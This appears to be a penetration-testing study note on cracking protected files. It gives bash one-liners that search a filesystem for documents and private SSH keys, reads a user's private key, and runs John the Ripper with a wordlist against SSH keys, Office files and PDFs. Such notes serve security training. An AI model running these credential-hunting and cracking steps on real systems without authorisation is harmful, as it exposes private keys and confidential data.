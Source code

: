 >The use of file encryption is often still lacking in `private` and `business` matters. Even today, emails containing job applications, account statements, or contracts are often sent unencrypted. This is grossly negligent and, in many cases, even punishable by law. For example, GDPR demands the requirement for encrypted storage and transmission of personal data in the European Union. Especially in business cases, this is quite different for emails. Nowadays, it is pretty common to communicate `confidential` topics or send `sensitive` data `by email`. However, emails are not much more secure than postcards, which can be intercepted if the attacker is positioned correctly.

>More and more companies are increasing their IT security precautions and infrastructure through training courses and security awareness seminars. As a result, it is becoming increasingly common for company employees to encrypt/encode sensitive files. Nevertheless, even these can be cracked and read with the right choice of lists and tools. In many cases, `symmetric encryption` like `AES-256` is used to securely store individual files or folders. Here, the `same key` is used to encrypt and decrypt a file.

[[Protected Files]]


#### Hunting for Files

```
$ for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#bash #bashscripting 

#### Hunting for SSH Keys

```
$ grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

#hunting #grep #ssh 

#### Encrypted SSH Keys

```
$ cat /home/cry0l1t3/.ssh/SSH.private
```

## Cracking with John

```
$ locate *2john*
```

```shell-session
/usr/bin/bitlocker2john
/usr/bin/dmg2john
/usr/bin/gpg2john
/usr/bin/hccap2john
/usr/bin/keepass2john
/usr/bin/putty2john
/usr/bin/racf2john
/usr/bin/rar2john
/usr/bin/uaf2john
/usr/bin/vncpcap2john
/usr/bin/wlanhcx2john
/usr/bin/wpapcap2john
/usr/bin/zip2john
/usr/share/john/1password2john.py
/usr/share/john/7z2john.pl
/usr/share/john/DPAPImk2john.py
/usr/share/john/adxcsouf2john.py
/usr/share/john/aem2john.py
/usr/share/john/aix2john.pl
/usr/share/john/aix2john.py
/usr/share/john/andotp2john.py
/usr/share/john/androidbackup2john.py
```

```
$ ssh2john.py SSH.private > ssh.hash
```

```
$ cat ssh.hash 
```

```
$ john --wordlist=rockyou.txt ssh.hash
```

```
$ john ssh.hash --show
```


		Cracking Microsoft Office Documents

```
$ office2john.py Protected.docx > protected-docx.hash
```

```
$ cat protected-docx.hash
```

```
$ john --wordlist=rockyou.txt protected-docx.hash
```

```
$ john protected-docx.hash --show
```


		 Cracking PDFs 

```
$ pdf2john.py PDF.pdf > pdf.hash
```

```
$ cat pdf.hash 
```

```
$ john --wordlist=rockyou.txt pdf.hash
```

```
$ john pdf.hash --show
```

